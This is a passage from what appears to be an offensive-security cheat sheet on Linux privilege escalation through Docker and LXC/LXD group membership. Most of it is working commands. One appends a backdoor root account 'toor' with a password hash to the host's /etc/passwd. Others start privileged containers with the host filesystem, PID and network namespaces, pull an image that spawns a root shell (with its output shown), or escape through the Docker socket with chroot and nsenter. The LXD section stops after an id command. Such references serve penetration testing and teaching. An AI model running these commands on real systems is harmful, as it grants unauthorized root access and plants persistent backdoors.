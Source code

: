 ## Groups

### Docker

Mount the filesystem in a bash container, allowing you to edit the `/etc/passwd` as root, then add a backdoor account `toor:password`.

```bash
$> docker run -it --rm -v $PWD:/mnt bash
$> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

Almost similar but you will also see all processes running on the host and be connected to the same NICs.

```powershell
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

Or use the following docker image from [chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/) to spawn a root shell

```powershell
$ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
latest: Pulling from chrisfosterelli/rootplease
2de59b831a23: Pull complete 
354c3661655e: Pull complete 
91930878a2d7: Pull complete 
a3ed95caeb02: Pull complete 
489b110c54dc: Pull complete 
Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
Status: Downloaded newer image for chrisfosterelli/rootplease:latest

You should now have a root shell on the host OS
Press Ctrl-D to exit the docker instance / shell

sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
```

More docker privilege escalation using the Docker Socket.

```powershell
sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

### LXC/LXD

The privesc requires to run a container with elevated privileges and mount the host filesystem inside.

```powershell
╭─swissky@lab ~  
╰─$ id
uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)
```
